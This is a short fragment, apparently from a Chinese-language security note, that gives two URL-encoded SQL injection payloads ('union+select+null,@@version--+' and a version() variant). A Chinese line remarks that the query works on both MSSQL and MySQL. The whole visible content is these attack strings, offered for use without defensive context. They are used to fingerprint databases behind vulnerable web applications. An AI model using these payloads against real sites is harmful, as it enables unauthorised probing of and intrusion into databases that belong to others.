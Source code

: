 payload:

```javascript
'union+select+null,@@version--+
```

改查询语句再mssql和mysql上都适用



也可使用:

```javascript
'union+select+null,version()--+
```

